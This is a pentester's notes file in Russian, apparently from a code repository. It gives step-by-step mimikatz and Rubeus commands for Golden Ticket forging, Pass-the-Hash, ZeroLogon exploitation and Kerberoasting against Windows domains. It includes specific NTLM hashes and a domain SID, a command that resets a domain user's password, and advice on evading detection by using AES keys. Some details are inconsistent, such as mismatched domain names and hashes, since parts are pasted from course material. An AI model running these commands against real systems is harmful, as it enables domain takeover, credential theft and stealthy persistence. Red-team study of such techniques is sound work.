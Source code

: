# Golden Ticket

1. Получили доступ к домен-контроллеру через psexec. Запускаем mimikatz:
`lsadump::dcsync /user:krbtgt`

2. Забираем _Hash NTLM_
`Hash NTLM : 8bf56c4f95a012ac7191216a11b242d3`
  
3. Получаем полное имя домена:
`ipconfig /all`

4. Получаем SID домена (PS> Get-ADDomain). Создаем golden ticket на *доменной машине*

`mimikatz # kerberos::golden /rc4:8bf56c4f95a012ac7191216a11b242d3 /user:Administrator /domain:COMPANY.RU /sid:S-1-5-21-2300122653-3816496348-2769763471`

`/rc4` - we will use RC4 encryption using the NT hash we previously stole (5525e655c06299c7e4179e2cc5621fb3) as a key
`/user` - the target username is Administrator
`/domain` -  the target domain name is sec560.local
`/sid` - the target domain SID (Security Identifier)

5. Выгружаем тикет на удалённую машину и выполняет Pass-the-ticket (PtT). _сmd.exe_ нужно запустить от Администратора.

`kerberos::ptt C:\Tools\mimikatz\ticket.kirbi`

`exit`

Проверяем подгрузку тикета:

`klist`

Получаем доступ ко всем хостам:

`psexec64.exe \\dc cmd.exe`

*Созданный тикет обладает следующими ограничениями:*
- действителен в течение 10 лет;
- ServiceKey that is used is the krbtgt RC4 key (NT hash);
- A small note on evasion: If we want to make our attack more stealthy, we would choose to steal the AES keys of the krbtgt account and generate a golden ticket using AES instead of RC4.
 In a typical environment, AES is the dominant Kerberos encryption type in use and using RC4 is an anomaly in and of itself that would warrant further investigation.

# Path-the-Hash
Входные данные:
- требует права для фальсификации токена;

1. Запускаем удаленный powershell.
sekurlsa::pth /domain:company.ru /user:kstepanovAdm /ntlm:39aced871bfb9485b15c0ddcd3b456f3 /run:"powershell.exe"

2. Меняем пароль пользователя в домене. Пароль должен удовлетворять текущей парольной политике!
sekurlsa::pth /domain:company.ru /user:eborisenkoAdm /ntlm:84a09c7fe2da7625051ed8dbae888073 /run:"net user buhramin Qwerty15 /domain"

# ZeroLogon
Входные данные:
- server 2016;
- машина в домене с позможностью запуска ПО;
- отсутствуют средства защиты, которые нельзя отключить.

Замечанияпо атаке:
- может сломать домен-контроллер (перестал работать RDP к dc);
- достаточно прав обычного пользователя.

1. Попытка провести атаку dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:krbtgt /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm
Естественно, не успех.

2. Проверка возможности эксплуатации данной уязвимости.
lsadump::zerologon /target:dc.company.ru /account:dc$

3. Экслуатация.
lsadump::zerologon /target:dc.company.ru /account:dc$ /exploit

4. Атака dcsync.
lsadump::dcsync /domain:company.ru /dc:dc.company.ru /user:<<<username>>> /authuser:dc$ /authdomain:company.ru /authpassword:"" /authntlm

5. Восстановление пароля машины штатными средствами (https://winitpro.ru/index.php/2014/09/18/vosstanovlenie-doveritelnyx-otnoshenij-bez-perevvoda-v-domen/):
	5.1. Можно проверить, что связи с dc нет, с помощью nltest /sc_verify:<имя_домена>
	5.2. Зайти от локального администратора, я включил встроенного и заходил от него (надо проверить другие варианты).
	5.3. Есть много команд и командлетов для сброса пароля, но у меня сработал только этот:
		Reset-ComputerMachinePassword -Server dc -Credential company\Adm
	5.4. В статье говорят, что перезагружаться не надо. У меня так не сработало. RDP ожил только после перезагрузки.
	5.5. Повторно проверить наличие связи с dc (см. пункт 5.1).
	
Есть скрипт restorepassword.py (https://github.com/dirkjanm/CVE-2020-1472)

# Kerberoasting

Входные данные:
	- имеется доступ к машине в домене с учетной записью пользователя.
	
Инструменты:
	1. Поиск уязвимых SPN (setspn, rubeus и много других вариантов).

Замечания:	
	- Rubeus по умолчанию собирается под 3.5 framework, а на Windows 10 дефолтный 4.5. Можно просто пересобрать, дабы ничего на атакованную машину лишнего не ставить.
	
Достоинства:
	- скрытность:
		+ запрос TGS это легитимное действие пользователя.
		+ по сравнению c online подбором пароля сервисной учетной записи в том, что после выгрузке TGS обращение NTLM-хеша проводится в оффлайне;
		
Примеры использования:
	- PT (https://youtu.be/WE8JjboUtDY?t=1962)
	
Порядок дейстия для rubeus-а:
	1. #rubeus kerberoast - выводит найденные TGS REP в консоль.
	   #rubeus kerberoast /outfile:<outputFilePath> - выводит найденные TGS REP в файл
	2. Подбор по словарю john (не получилось) и hashcat.
	

